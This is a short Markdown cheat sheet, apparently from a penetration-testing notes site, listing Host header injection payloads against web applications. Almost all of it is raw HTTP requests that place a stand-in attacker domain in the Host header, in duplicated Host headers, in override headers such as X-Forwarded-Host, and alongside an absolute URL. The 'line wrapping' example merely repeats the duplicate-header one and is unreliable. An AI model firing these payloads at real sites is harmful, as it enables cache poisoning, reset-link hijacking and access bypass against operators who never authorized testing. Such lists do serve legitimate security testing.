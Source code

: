 ```yaml
---
title: "Host Header Injection"
draft: false
images: []
description: "Host Header Injection Attacks"
lead: "Host Header Injection Attacks"
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


### Change the host header
```
GET /index.php HTTP/1.1
Host: evil-website.com
...
```
### Duplicating the host header
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
### Add line wrapping
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
### Add host override headers
```
X-Forwarded-For : evil-website.com
X-Forwarded-Host : evil-website.com
X-Client-IP : evil-website.com
X-Remote-IP : evil-website.com
X-Remote-Addr : evil-website.com
X-Host : evil-website.com
```
### X-Forwarded-For : evil.com
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : evil-website.com
...
```
### Supply an absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com
...
```